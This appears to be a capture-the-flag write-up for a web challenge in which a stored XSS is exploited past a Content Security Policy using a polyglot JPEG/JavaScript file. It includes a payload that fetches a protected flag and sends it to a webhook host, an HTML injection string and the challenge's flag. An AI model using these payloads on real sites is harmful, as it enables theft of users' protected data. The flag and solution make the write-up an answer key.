

# Challenge

**Name:** Poly Wants a JPEG

**Category:** Web

**Difficulty:** Hard

**Author:** Alex Brown (ghostccamm)

**Flag:** ISS{sHaP3s1FtInG_jP3G_f1L3s_hAv3_tr1cK3d_p0Ly!!1!}

**Provided Files:** [web_polywantsajpeg.zip](publish/web_polywantsajpeg.zip)

## Description

My parrot called Poly really loves pretty JPEGs. Can you use my website to send them some beatiful JPEGs?

The goal is to read the flag from `/api/flag`. However, *only logged in users can see it*.

## Solution

Analysing the source code clearly shows that there is a XSS vulnerability when the html page for uploads is created and stored at `/upload` on the server. Poly checks each of these pages, meaning that you can exploit the XSS vulnerability to fetch the flag from `/api/flag` and then send it to a webhook to view.

However, the Content Security Policy (CSP) has set the default source to `self`. Meaning that inline XSS will not work and the browser will only execute javascript code that is in a file on the server.

The only files that can be uploaded a JPEG image files, which implies that the only way to exploit the XSS vulnerability is to trick the server that the Javascript file that you upload is a JPEG file. This is termed a **Polyglot JPEG Javascript file**.

Burpsuite has written a [great article](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs) explaining how to modify the bytes of a JPEG file such that it can be interpreted as a javascript file using the `ISO-8859-1` charset. 

I have also made a tool called `xjt` for constructing Polyglot JPEG/Javascript files with a custom payload that you can download from [here](https://github.com/Ccamm/Polyglot-JPEG-XSS). The following command creates the polyglot file that first fetches the flag from `/api/flag` then uses `document.location` to a web hook. `document.location` or something similar must be used when sending the flag to the webhook, otherwise it would be blocked by the CSP.

```
$ xjt -p 'fetch("/api/flag").then(r=>r.text()).then((data)=>{document.location="https://webhook.site/b26b4c23-331c-4d0d-987c-5738155b7f44?flag="+btoa(data);});' -o payload.jpg
```

To trigger the vulnerability, there are two stages.

1) Upload the payload to the server.
2) Using the path of the first image, upload a second image where the name exploits the XSS vuln as shown below.

*name*
```html
</h3><script charset="ISO-8859-1" src="/images/uploads/83ab453ee072b1ad"></script><h3>
```

Now you'll just need to wait for about a minute for poly to visit your page to get the flag.



```
$ echo eyJzdGF0dXMiOiAic3VjY2VzcyIsICJ2YWx1ZSI6ICJJU1N7c0hhUDNzMUZ0SW5HX2pQM0dfZjFMM3NfaEF2M190cjFjSzNkX3AwTHkhITEhfSJ9 | base64 -d

{"status": "success", "value": "ISS{sHaP3s1FtInG_jP3G_f1L3s_hAv3_tr1cK3d_p0Ly!!1!}"}
```

The solution code is [here](solution/exploit.py) with an example payload JPEG file [here](solution/payload.jpg).